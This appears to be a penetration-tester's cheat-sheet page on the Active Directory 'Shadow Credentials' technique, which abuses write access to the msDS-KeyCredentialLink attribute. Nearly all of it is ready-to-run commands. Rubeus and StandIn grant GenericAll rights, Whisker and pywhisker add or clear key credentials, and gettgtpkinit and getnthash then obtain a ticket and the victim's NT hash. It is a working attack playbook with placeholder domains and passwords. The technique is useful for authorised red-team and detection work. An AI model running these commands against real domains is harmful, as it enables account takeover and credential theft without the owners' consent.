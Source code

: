 # Key Credentials Abuse

> "...if you can write to the `msDS-KeyCredentialLink` property of a user, you can retrieve the NT hash of that user." (Elad Shamir, [ref](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab))

That makes `GenericWrite` on a user effectively equal to DCSync right on that user.

{% hint style="info" %}
Remember that `WriteDacl` != `GenericWrite`, so in order to modify `msDS-KeyCredentialLink`, obtain necessary privileges first. For example, using [StandIn](https://github.com/FuzzySecurity/StandIn):

```
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:tgt.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type GenericAll
```
{% endhint %}




## DSInternals

* [https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md)




## Whisker

* [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
* [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

List all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
```

Add a new value to the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
```

Remove a value from the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /remove:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
```

Clear all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
```




## pywhisker

* [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)
* [https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```
